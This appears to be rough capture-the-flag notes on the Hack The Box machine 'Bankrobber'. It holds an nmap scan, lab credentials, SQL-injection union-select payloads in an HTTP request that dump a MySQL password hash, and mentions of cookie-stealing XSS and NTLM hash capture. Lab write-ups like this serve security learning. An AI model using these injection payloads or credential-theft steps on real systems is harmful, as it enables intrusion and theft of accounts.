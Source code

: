 # Bankrobber

- Difficulty: "Insane"
- Platform: Windows
---

10.10.10.154

## Nmap
```bash
I wiped out disk without backing up notes like an idiot... 
picking up from web-admin access

The Rundown:

Esentially, there is a database user search and and E-Coin transfer service. 
The transfer service is manually reviewed by an administrator. 

The filed inputs do not validate/sanitize.
A cross-site scripting attack is possible, although finicky, returning the administrators cookie within the response headers.

There seems to be SQL-Injection present in the user database lookup, although I have yet to go any further. I am conflating both these things together and I forget what I actually did ut oh well... continuing.

➜  Bankrobber git:(main) ✗ sudo nmap -oA nmap/found-TCP-detailed 
	-p$(cat nmap/allports-TCP-initial.nmap | grep open | awk '{ print $1 }' | awk '{ print $0+0}' | sed ':a;N;$!ba;s/\n/,/g') -sCV -T4 --min-rate 5000 -Pn 10.10.10.154
 
Starting Nmap 7.94 ( https://nmap.org ) at 2023-07-30 02:53 EDT
Stats: 0:00:40 elapsed; 0 hosts completed (1 up), 1 undergoing Script Scan
NSE Timing: About 99.82% done; ETC: 02:54 (0:00:00 remaining)
Nmap scan report for 10.10.10.154
Host is up (0.027s latency).

PORT     STATE SERVICE      VERSION
80/tcp   open  http         Apache httpd 2.4.39 ((Win64) OpenSSL/1.1.1b PHP/7.3.4)
|_http-server-header: Apache/2.4.39 (Win64) OpenSSL/1.1.1b PHP/7.3.4
|_http-title: E-coin
443/tcp  open  ssl/http     Apache httpd 2.4.39 ((Win64) OpenSSL/1.1.1b PHP/7.3.4)
| tls-alpn: 
|_  http/1.1
|_ssl-date: TLS randomness does not represent time
| ssl-cert: Subject: commonName=localhost
| Not valid before: 2009-11-10T23:48:47
|_Not valid after:  2019-11-08T23:48:47
|_http-server-header: Apache/2.4.39 (Win64) OpenSSL/1.1.1b PHP/7.3.4
|_http-title: E-coin
445/tcp  open  microsoft-ds Microsoft Windows 7 - 10 microsoft-ds (workgroup: WORKGROUP)
3306/tcp open  mysql        MariaDB (unauthorized)
Service Info: Host: BANKROBBER; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-time: 
|   date: 2023-07-30T06:54:01
|_  start_date: 2023-07-30T05:18:55

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 53.85 seconds
```

`admin:Hopelessromantic`

A regular union select statement reveals version `MariaDB-10.1.38` in field 2:`
```http
POST /admin/search.php HTTP/1.1
Host: 10.10.10.154
Content-Length: 37
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/115.0.5790.110 Safari/537.36
Content-type: application/x-www-form-urlencoded
Accept: */*
Origin: http://10.10.10.154
Referer: http://10.10.10.154/admin/
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Cookie: id=1; username=YWRtaW4%3D; password=SG9wZWxlc3Nyb21hbnRpYw%3D%3D
Connection: close

term=1'union+select+1,@@version,3-- -
```

```
term=1'union+select+1,user()+from+mysql.user,3-- -
user: `root@localhost`

lucky guess:
term=1'union slect user,password,3 from mysql.user--
hash: *F435725A173757E57BD36B09048B8B610FF4D0C4
```

SHA-1 hash decodes to `Welkom1!`. This could be either admin or gio's password. 
Connections aren't permitted to the MySQL service from an external IP. Localhost only:
```bash
➜  loot git:(main) ✗ mysql -u 'gio' -p 'Welkom1!' -h 10.10.10.154
mysql: Deprecated program name. It will be removed in a future release, use '/usr/bin/mariadb' instead
Enter password: 

ERROR 1130 (HY000): Host '10.10.14.2' is not allowed to connect to this MariaDB server
```

This password does not work on SMB. 
A possibility would be to capture an NTLM hash since mysql is available.

Resources: 
https://book.hacktricks.xyz/windows-hardening/ntlm/places-to-steal-ntlm-creds
https://osandamalith.com/2017/02/03/mysql-out-of-band-hacking/

